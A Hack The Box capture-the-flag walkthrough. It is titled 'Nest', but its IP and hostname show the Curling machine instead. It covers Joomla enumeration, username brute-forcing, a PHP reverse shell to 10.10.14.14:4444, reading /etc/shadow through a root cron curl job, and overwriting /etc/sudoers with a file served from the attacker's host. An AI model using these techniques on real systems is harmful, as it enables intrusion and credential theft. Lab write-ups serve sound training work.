







# Nest
https://app.hackthebox.com/machines/160

Target IP
10.10.10.150

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.150 --dirbuster.wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### Nmap

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGsat32aGJHTbu0gQU9FYIMlMqF/uiytTZ6lsW+EIodvlPp6Cu5VHfs2iEFd5nfn0s+97qTfJ258lf7Gk3rHrULvCrUif2wThIeW3m4fS5j6O2ZPjv0Gl5g02TItSklwQmjJfyH0KR5b1D9bGCXQV3Gm585DD8wZrOpTxDjGCnmByYoHitfG6sa1LC7Sckb8g9Km40fvfKPPWMHgzUhXC3g3wXyjXXeByZvhjbAAuOv7MKda6MjeNUH71hkiQRkTwZ8qqY9fbDDnSKOHdkC2Scs+8tcpz8AIekc/hmDSn+QKbs+3iV0FLoW9TOPmT8xz45etnqW6DhhlcrO7aFju33
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN2TI0Uv8Dr/6h+pEZ34kyKx7H6tD1gC/FB4q19PO4klA767pC7YVB3NTdEs2TGI+8XAevVqHiQv/8ZniMwG9IU=
|   256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILhmU6S36IrO41biIUZrXnzMGw3OZmLLHS/DxqKLPkVU
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 4.15 - 5.6 (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (93%), Linux 5.3 - 5.4 (93%), Linux 3.1 (92%), Linux 3.2 (92%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 5.0 (90%), Linux 5.0 - 5.4 (90%), Crestron XPanel control system (90%)
No exact OS matches for host (test conditions non-ideal).
```

### Joomscan

As Nmap tells us the site is using Joomla we can use a scan to quick get some details and check the site.


```
$ joomscan -u http://10.10.10.150
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.10.150 ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.8.8

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.10.10.150/administrator/components
http://10.10.10.150/administrator/modules
http://10.10.10.150/administrator/templates
http://10.10.10.150/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.10.150/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/10.10.10.150/
```


###  Poking around

Starting Burp and enabling the page to go through the proxy, allow us to poke around on the page and learn more about it.


Creating a list of words based on the webpage. We may use it later to try to brute force the password.
```
$ cewl -w cewl.out 10.10.10.150                  
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

```
$ cat cewl.out                 
the
curling
Curling
site
you
and
are
Print
for
Home
Cewl
Uncategorised
The
...
```

On the `index.php` source code we see the indication of a `secret.txt` file.




```
$ curl http://10.10.10.150/secret.txt            
Q3VybGluZzIwMTgh
```

If we notice this `secret` is divide on blocks of 4.
```
Q3Vy bGlu ZzIw MTgh
```

It could mean that this is encoded on base64.
```
$ echo -n 'Q3VybGluZzIwMTgh' | base64 -d                      
Curling2018!
```

Let's create a passwords file with it
```
$ cat passwords.txt                              
Curling2018!
```

Before fuzzing the page with our list of words and this password, lets confirm we have the name of the user who signed a msg on the page on our word list.


```
$ grep -i 'Floris' cewl.out 
Floris
```
Yes, we have it.


Now, lets try to authenticate on the admin page and get the details on Burp.






```
$ wfuzz -w cewl.out -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&f41cdd634b46a03391978be6931b60a4=1' -b 'c0548020854924e0aecd05ed9f5b672b=4q1b857bq0kuq9f9ak7def40tk; 99fb082d992a92668ce87e5540bd20fa=msrshlhlf2v5j9nqp9iocg6qsl' -c 'http://10.10.10.150/administrator/index.php'
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/administrator/index.php
Total requests: 218

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                      
=====================================================================

000000007:   200        114 L    373 W      5403 Ch     "are"                                                        
000000004:   200        114 L    373 W      5403 Ch     "site"                                                       
000000005:   200        114 L    373 W      5403 Ch     "you"                                                        
000000002:   200        114 L    373 W      5403 Ch     "curling"                                                    
000000001:   200        114 L    373 W      5403 Ch     "the"                                                        
000000011:   200        114 L    373 W      5403 Ch     "Cewl"                                                       
...
000000187:   303        0 L      0 W        0 Ch        "Floris"
...
```
`Floris` returned with response `303`






Let's create a new file `revshell` on the current template.
```
<?php
  system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.14/4444 <&1'")
?>
```




```
$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
```

```
$ curl http://10.10.10.150/templates/protostar/revshell.php
```

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.150] 54266
bash: cannot set terminal process group (1344): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
floris:x:1000:1004:floris:/home/floris:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

```
$ cat /home/floris/password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```



```
5d<wdCbdZu)|hChXll
```

```
www-data@curling:/home/floris$ su - floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
```

ssh as Floris is a better shell option
```
$ ssh floris@10.10.10.150
floris@10.10.10.150's password: 5d<wdCbdZu)|hChXll
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)

  System information as of Mon Oct 31 03:26:31 UTC 2022

  System load:  0.0               Processes:            172
  Usage of /:   67.0% of 3.87GB   Users logged in:      0
  Memory usage: 35%               IP address for ens33: 10.10.10.150
  Swap usage:   0%

Last login: Mon Oct 31 03:26:24 2022 from 10.10.14.14
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
```

```
floris@curling:~$ cat user.txt 
9925************************c12a
```


```
floris@curling:~/admin-area$ ls -lha
total 28K
drwxr-x--- 2 root   floris 4.0K Aug  2 14:44 .
drwxr-xr-x 7 floris floris 4.0K Oct 31 03:46 ..
-rw-rw---- 1 root   floris   25 Oct 31 04:12 input
-rw-rw---- 1 root   floris  14K Oct 31 04:12 report
```


```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

```
floris@curling:~/admin-area$ cat report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
        <link href="/index.php?format=feed&amp;type=atom" rel="alternate" type="application/atom+xml" title="Atom 1.0" />
        <link href="/templates/protostar/favicon.ico" rel="shortcut icon" type="image/vnd.microsoft.icon" />
        <link href="/templates/protostar/css/template.css?b6bf078482bc6a711b54fa9e74e19603" rel="stylesheet" />
        <link href="https://fonts.googleapis.com/css?family=Open+Sans" rel="stylesheet" />
        <style>
...
```


User root `UID=0` is running curl.
```
floris@curling:~$ ./pspy64s
...
2022/10/31 03:47:11 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2022/10/31 03:48:01 CMD: UID=0    PID=11321  | /usr/sbin/CRON -f 
2022/10/31 03:48:01 CMD: UID=0    PID=11320  | /usr/sbin/CRON -f 
2022/10/31 03:48:01 CMD: UID=0    PID=11324  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 03:48:01 CMD: UID=0    PID=11323  | /usr/sbin/CRON -f 
2022/10/31 03:48:01 CMD: UID=0    PID=11322  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 03:48:01 CMD: UID=0    PID=11325  | sleep 1 
```


Change `input` to read local file `/etc/shadow`.

```
floris@curling:~/admin-area$ cat input 
url = "file:///etc/shadow"
```

But it returned to original one before generating the `report` file with the shadow content.

```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

If we run `pspy` again, but also asking to monitor the `admin-area` folder, we see that there is also a task changing the value of `input` back to the original one.

```
$ ./pspy64s -d /home/floris/admin-area/
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
...
2022/10/31 04:59:01 CMD: UID=0    PID=12157  | sleep 1 
2022/10/31 05:00:01 CMD: UID=0    PID=12164  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 05:00:01 CMD: UID=0    PID=12163  | sleep 1 
2022/10/31 05:00:01 CMD: UID=0    PID=12162  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2022/10/31 05:00:01 CMD: UID=0    PID=12161  | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input 
2022/10/31 05:00:01 CMD: UID=0    PID=12160  | /usr/sbin/CRON -f 
```

However, if we change `input` right after its change, we can get the *shadow* content on `report`'s file.


```
floris@curling:~/admin-area$ cat report 
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:17647:0:99999:7:::
uuidd:*:17647:0:99999:7:::
dnsmasq:*:17647:0:99999:7:::
landscape:*:17647:0:99999:7:::
pollinate:*:17647:0:99999:7:::
sshd:*:17647:0:99999:7:::
floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:17673:0:99999:7:::
mysql:!:17673:0:99999:7:::
```

I tried to crack the root hash with `John`, but I don't think the password was in the *rockyou* list.

```
$ cat root.shadow
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
```

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.shadow
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:18:55 DONE (2022-10-30 22:29) 0g/s 12631p/s 12631c/s 12631C/s !%twodee!%..*7¡Vamos!
Session completed.
```


Another option is to get the current `sudoers` file, add our user on it and let cron get it back and replace it.

```
floris@curling:~/admin-area$ cat input 
url = "file:///etc/sudoers"
output = /home/floris/admin-area/sudoers
```

```
floris@curling:~/admin-area$ ls -lha
total 32K
drwxr-x--- 2 root   floris 4.0K Oct 31 05:21 .
drwxr-xr-x 7 floris floris 4.0K Oct 31 03:46 ..
-rw-rw---- 1 root   floris   25 Oct 31 05:21 input
-rw-rw---- 1 root   floris  14K Oct 31 05:20 report
-rw-r--r-- 1 root   root    755 Oct 31 05:21 sudoers
```

```
floris@curling:~/admin-area$ cat sudoers 
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```


The new file hosted on Kali will have this difference:
```
$ cat sudoers             
...

# User privilege specification
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL

...
```

Start a HTTP server.
```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Change `input` to get our forged file and place on the correct place.
```
floris@curling:~/admin-area$ cat input 
url = "http://10.10.14.14/sudoers"
output = /etc/sudoers
```

After a minute we try to run `sudo su` and we get it :-)

```
floris@curling:~/admin-area$ sudo su -
[sudo] password for floris: 5d<wdCbdZu)|hChXll
root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@curling:~# cat /root/root.txt 
523a************************1537
```
